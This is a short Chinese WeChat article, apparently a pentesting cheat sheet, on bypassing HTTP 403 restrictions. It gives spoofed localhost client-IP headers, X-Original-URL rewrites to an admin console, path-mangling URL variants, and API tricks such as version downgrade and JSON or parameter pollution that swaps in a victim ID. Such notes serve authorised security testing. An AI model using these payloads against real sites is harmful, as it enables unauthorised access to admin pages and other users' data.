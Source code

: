 #  Fuzz 403 Bypass

原创 Tt  [ TtTeam ](javascript:void\(0\);)

**TtTeam** ![]()

微信号 gh_a0a1db78ea68

功能介绍 TtTeam

____

___发表于_

收录于合集

![]()

  
HTTP 标头模糊测试

在某些情况下，可以通过更改请求的标头并包含内部地址来访问页面：

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    X-Originating-IP: 127.0.0.1X-Forwarded-For: 127.0.0.1X-Forwarded: 127.0.0.1Forwarded-For: 127.0.0.1X-Remote-IP: 127.0.0.1X-Remote-Addr: 127.0.0.1X-ProxyUser-Ip: 127.0.0.1X-Original-URL: 127.0.0.1Client-IP: 127.0.0.1True-Client-IP: 127.0.0.1Cluster-Client-IP: 127.0.0.1X-ProxyUser-Ip: 127.0.0.1Host: localhost

  

如果路径受到保护，您可以尝试使用以下其他标头绕过路径保护：

  *   * 

    
    
    X-Original-URL: /admin/consoleX-Rewrite-URL: /admin/console

路径模糊测试 我们可以尝试对 url 进行一些更改，使用特殊字符或包含 HTML 编码：

  *   *   *   *   *   *   *   *   *   * 

    
    
    http://site.com/secret –> HTTP 403 Forbiddenhttp://site.com/SECRET –> HTTP 200 OKhttp://site.com/secret/ –> HTTP 200 OKhttp://site.com/secret/. –> HTTP 200 OKhttp://site.com//secret// –> HTTP 200 OKhttp://site.com/./secret/.. –> HTTP 200 OKhttp://site.com/;/secret –> HTTP 200 OKhttp://site.com/.;/secret –> HTTP 200 OKhttp://site.com//;//secret –> HTTP 200 OKhttp://site.com/secret.json –> HTTP 200 OK (ruby)

API bypasses

  *   *   *   *   *   *   *   * 

    
    
    /v3/users_data/1234 --> 403 Forbidden/v1/users_data/1234 --> 200 OK{“id”:111} --> 401 Unauthriozied{“id”:[111]} --> 200 OK{“id”:111} --> 401 Unauthriozied{“id”:{“id”:111}} --> 200 OK{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON Parameter Pollution)user_id=ATTACKER_ID&user_id=VICTIM_ID (Parameter Pollution)

预览时标签不可点

微信扫一扫  
关注该公众号

轻触阅读原文

继续滑动看下一个

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

